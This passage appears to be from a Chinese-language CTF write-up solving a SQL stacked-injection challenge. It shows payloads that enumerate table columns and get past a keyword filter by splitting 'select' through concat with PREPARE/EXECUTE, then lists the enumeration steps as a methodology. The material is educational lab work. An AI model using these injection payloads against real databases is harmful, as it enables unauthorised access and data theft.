 ![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/9.png)

```
1';show columns from `1919810931114514`;
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/8.png)

接下来就要读取数据了，但是关键词都被过滤了。

看到两种解题思路，一种是把关键词分开写然后拼接，一种是将1919810931114514重命名为words，将flag改为id。感觉重命名了以后就算是修改了原本数据，所以选择拼接关键词的方法。

```
1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/10.png)



## 思路

💁加单引号试探，有时候也可以试一下没有单引号或者括号或者双引号，原理就是尝试闭合前一个语句

💁判断列数，`order by`

💁select 列数，发现关键字被过滤，尝试堆叠注入

💁列出数据库名

💁列出表名

💁列出列名

💁想办法读数据，这里的操作是关键词绕过





# Refer

[https://xz.aliyun.com/t/5505](www.wuliao.com)

[https://www.zhaoj.in/read-5873.html](www.shibushisha.com)

[https://www.cnblogs.com/0nth3way/articles/7128189.html](www.hahahaha.com)
